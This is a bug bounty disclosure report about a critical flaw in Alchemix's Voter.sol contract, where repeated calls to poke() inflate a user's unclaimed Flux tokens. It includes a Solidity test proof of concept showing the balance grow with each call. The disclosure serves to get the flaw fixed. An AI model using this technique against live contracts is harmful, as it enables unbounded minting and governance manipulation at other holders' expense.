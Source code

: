 
# User can increase their unclaimed Flux token without limits through `poke()`

Submitted on May 6th 2024 at 01:39:08 UTC by @jecikpo for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30788

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- unbounded minting of token
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
A user can increase their unclaimed Flux token amount by calling `Voter.poke()` multiple times.

## Vulnerability Details
The `Voter._vote()` function calls `FluxToken.accrueFlux(_tokenId)` which increases the `unclaimed[_tokenId]` balance according the `_tokenId` voting power. `_vote()` is called by `vote()` which has the `onlyNewEpoch(_tokenId)` modifier attached, so it can be called only once during each epoch. 

The `_vote()` is also used inside `poke()`. `poke()` is supposed to vote based on the users previous voting weights. however `poke()` does not have the above mentioned modifier attached, hence it can be called multiple times during the epoch without any limits. Each time `poke()` is called the unclaimed FLUX is increased.

## Impact Details
The impact is that the user can accrue potentially unlimited amount of unclaimed Flux. The unclaimed Flux could be used to execute unfair voting by increasing the user's voting power. It could also be claimed and sold on the open market to suppress the Flux price which will allow other users to unlock their veALCX tokens at lower prices hence destroying the entire voting system credibility.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195



## Proof of Concept
Add to the `VotingEscrow.t.sol` the following code:
```solidity
function testAbusePoke() public {
        hevm.startPrank(admin);

        uint256 tokenIdLarge = veALCX.createLock(TOKEN_100K, THREE_WEEKS, false);
        //uint256 tokenIdSmall = veALCX.createLock(TOKEN_1, THREE_WEEKS, false);


        voter.reset(tokenIdLarge);
        console.log("Unclaimed Flux on tokenIdLarge: %d", flux.unclaimedFlux(tokenIdLarge));
        voter.poke(tokenIdLarge);
        // we can see that the user amassed more unclaimed FLUX: 9420478183663114723056
        console.log("Unclaimed Flux on tokenIdLarge after poke called once: %d", flux.unclaimedFlux(tokenIdLarge));

        // even more after calling poke() again: 14130717275494672084584
        voter.poke(tokenIdLarge);
        console.log("Unclaimed Flux on tokenIdLarge after poke called twice: %d", flux.unclaimedFlux(tokenIdLarge));

        // and again: 18840956367326229446112
        voter.poke(tokenIdLarge);
        console.log("Unclaimed Flux on tokenIdLarge after poke called thrid time: %d", flux.unclaimedFlux(tokenIdLarge));

        hevm.stopPrank();
    }
```
